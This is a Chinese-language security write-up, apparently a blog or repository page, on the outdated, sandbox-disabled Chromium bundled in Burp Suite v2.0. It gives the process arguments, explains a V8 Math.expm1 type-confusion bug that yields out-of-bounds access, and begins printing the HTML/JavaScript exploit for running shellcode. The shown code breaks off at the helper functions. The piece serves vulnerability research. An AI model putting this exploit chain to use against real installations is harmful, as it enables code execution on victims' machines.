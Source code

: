 browsercore32.exe 进程运行参数如下：

```bash
// Chromium 主进程
C:\Users\user\AppData\Local\JxBrowser\browsercore-64.0.3282.24.unknown\browsercore32.exe --port=53070 --pid=13208 --dpi-awareness=system-aware --crash-dump-dir=C:\Users\user\AppData\Local\JxBrowser --lang=zh-CN --no-sandbox --disable-xss-auditor --headless --disable-gpu --log-level=2 --proxy-server="socks://127.0.0.1:0" --disable-bundled-ppapi-flash --disable-plugins-discovery --disable-default-apps --disable-extensions --disable-prerender-local-predictor --disable-save-password-bubble --disable-sync --disk-cache-size=0 --incognito --media-cache-size=0 --no-events --disable-settings-window

// Renderer 进程
C:\Users\user\AppData\Local\JxBrowser\browsercore-64.0.3282.24.unknown\browsercore32.exe --type=renderer --log-level=2 --no-sandbox --disable-features=LoadingWithMojo,browser-side-navigation --disable-databases --disable-gpu-compositing --service-pipe-token=C06434E20AA8C9230D15FCDFE9C96993 --lang=zh-CN --crash-dump-dir="C:\Users\user\AppData\Local\JxBrowser" --enable-pinch --device-scale-factor=1 --num-raster-threads=1 --enable-gpu-async-worker-context --disable-accelerated-video-decode --service-request-channel-token=C06434E20AA8C9230D15FCDFE9C96993 --renderer-client-id=2 --mojo-platform-channel-handle=2564 /prefetch:1
```

从进程运行参数分析得知，Chromium 进程以 headless 模式运行、关闭了沙箱功能、随机监听一个端口（用途未知）。

## 三、漏洞利用

Chromium 组件的历史版本几乎都存在着 1Day 漏洞风险，特别是在客户端软件一般不会维护升级 Chromium 版本，且关闭沙箱功能，在没有沙箱防护的情况下漏洞可以无限制利用。

Burp Suite v2.0 内置的 Chromium 版本为 64.0.3282.24，该低版本 Chromium 受到多个历史漏洞影响，可以通过 v8 引擎漏洞执行 shellcode 从而获得 PC 权限。

以 Render 功能演示，利用 v8 漏洞触发 shellcode 打开计算器（此处感谢 Sakura 提供漏洞利用代码）

这个漏洞没有公开的 CVE ID，但其详情可以在[这里](https://bugs.chromium.org/p/chromium/issues/detail?id=880207)找到。该漏洞的 Root Cause 是在进行`Math.expm1`的范围分析时，推断出的类型是`Union(PlainNumber, NaN)`，忽略了`Math.expm1(-0)`会返回`-0`的情况，从而导致范围分析错误，导致 JIT 优化时，错误的将边界检查 CheckBounds 移除，造成了 OOB 漏洞。

```bash
<html>
<head></head>
</body>
<script>
function pwn() {
    var f64Arr = new Float64Array(1);
    var u32Arr = new Uint32Array(f64Arr.buffer);

    function f2u(f) {
        f64Arr[0] = f;
        return u32Arr;
    }

    function u2f(h, l)
    {
        u32Arr[0] = l;
        u32Arr[1] = h;
        return f64Arr[0];
    }

    function hex(i) {
        return "0x" + i.toString(16).padStart(8, "0");
    }

    function log(str) {
        console.log(str);
        document.body.innerText += str + '\n';
    }

    var big_arr = [1.1, 1.2];
```